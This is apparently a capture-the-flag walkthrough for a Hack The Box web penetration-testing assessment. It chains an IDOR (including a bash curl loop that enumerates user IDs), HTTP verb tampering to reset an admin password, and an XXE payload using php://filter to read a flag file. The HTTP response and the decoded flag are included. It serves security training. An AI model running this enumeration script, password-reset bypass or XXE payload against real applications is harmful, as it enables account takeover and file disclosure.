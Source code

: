 ```yaml
---
sticker: emoji//1f578-fe0f
---
```

## Scenario

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

The login details are provided in the question below.

![[Pasted image 20250217220316.png]]

Let's visit the web application:

![[Pasted image 20250217220549.png]]

We can authenticate now:

![[Pasted image 20250217220617.png]]
## Identifying IDOR
---

We get sent to this dashboard, we can see settings, messages, invites, events, account settings and statistics, if we go to `settings`, we can see this:

![[Pasted image 20250217220735.png]]

We can change our password here, let's try sending a request to burp to analyze it:

![[Pasted image 20250217221231.png]]

We get an api call to `token/74`, also, we are assigned a cookie and an `uid`, in this case, we are assigned with `uid=74`, viewing the structure of the api call, we can see that the uid is strictly related to the token, let's try changing it to another uid to check the behavior:

![[Pasted image 20250217221356.png]]

For example, if we change it to 1, we get that token, that token is necessary for the following:

![[Pasted image 20250217221433.png]]

We can see that the `reset.php` function needs the token to function, since we can enumerate the tokens for other uids rather than ours, but, how do we even know which one is meant for admin user since we can only know tokens, that's when we need to go to our `HTTP History`, in there, we can check another `GET` request being made to `/api.php/user/`:


![[Pasted image 20250217222105.png]]

Since this behaves exactly like the token request, we can change the uid and token call to check other users, for example, with number 1:

![[Pasted image 20250217222149.png]]

## Enumerating Admin User
Now, it's time to automatize the uid search, let's begin with this bash script to enumerate users and view the uid of the admin user:

```bash
#!/bin/bash

# Target URL
TARGET="http://IP:PORT/api.php/user/"

# User-Agent
USER_AGENT="Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0"

# Output file
OUTPUT_FILE="idor_results.txt"

# Clear previous results
> "$OUTPUT_FILE"

# Colored output
GREEN="\e[32m"
RED="\e[31m"
YELLOW="\e[33m"
RESET="\e[0m"

# Loop through user IDs
for uid in {1..100}; do
    RESPONSE=$(curl -s "$TARGET$uid" -H "User-Agent: $USER_AGENT")
    
    if echo "$RESPONSE" | grep -iq "admin"; then
        echo -e "${GREEN}[+] Admin Found! UID: $uid${RESET}"
        echo "$RESPONSE" | tee -a "$OUTPUT_FILE"
    fi

done

echo -e "${GREEN}[+] Enumeration complete. Results saved to $OUTPUT_FILE${RESET}"

```

After a bit, we get the following:

```bash
[+] Admin Found! UID: 52

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

We found the right uid, let's visualize the token:

![[Pasted image 20250217230027.png]]

Our admin token is:

```
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```

If we try to reset the password, this happens:

![[Pasted image 20250217230135.png]]

We're getting `Access Denied`, we can bypass this restriction with `HTTP Verb Tampering`.

## HTTP Verb Tampering
---

To begin with, change the request to `PUT`:

![[Pasted image 20250217230238.png]]

Now we get something different, let's adjust the parameters:

![[Pasted image 20250217230311.png]]

And now we were able to successfully change the password using `PUT` verb, we can now log as the admin user:

```ad-note
`a.corrales`:`test`
```

![[Pasted image 20250217230426.png]]

## Identifying Admin Functionalities
----

Nice, we are now inside the admin panel and we got a new functionality: `Add Event`, let's check the request for this:

![[Pasted image 20250217230553.png]]

Let's create a simple test event:

![[Pasted image 20250217230641.png]]

Now, check the request:

![[Pasted image 20250217230722.png]]

We have a XML form, if we send the request, this is the response we're given:

![[Pasted image 20250217230757.png]]

It seems like the `name` property gets injected directly to the response, let's change it to something else and check:

![[Pasted image 20250217230848.png]]

If we inject `whoami`, we can see it indeed goes through, we do not get the output of the command but it helps us understand that it gets reflected in the response:

![[Pasted image 20250217231014.png]]

Now, knowing this, we can try exploiting XXE.

## Exploiting XXE
---

We can read the contents of our flag using the following payload:

```xml
<!DOCTYPE name [

  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">

]>
            <root>
            <name>&xxe;</name>
            <details>1</details>
            <date>0001-11-11</date>
            </root>
```

In this case, since we know the `name` is vulnerable, we can define an entity and then use it, this displays the following:

```
HTTP/1.1 200 OK

Date: Tue, 18 Feb 2025 04:41:32 GMT

Server: Apache/2.4.41 (Ubuntu)

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate

Pragma: no-cache

Vary: Accept-Encoding

Content-Length: 86

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```

We got the flag in base64, we can even use burp's decoder to quickly decode that:

![[Pasted image 20250217234359.png]]

That outputs:

```
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

Flag is: 

```
HTB{m4573r_w3b_4774ck3r}
```

![[Pasted image 20250217234432.png]]

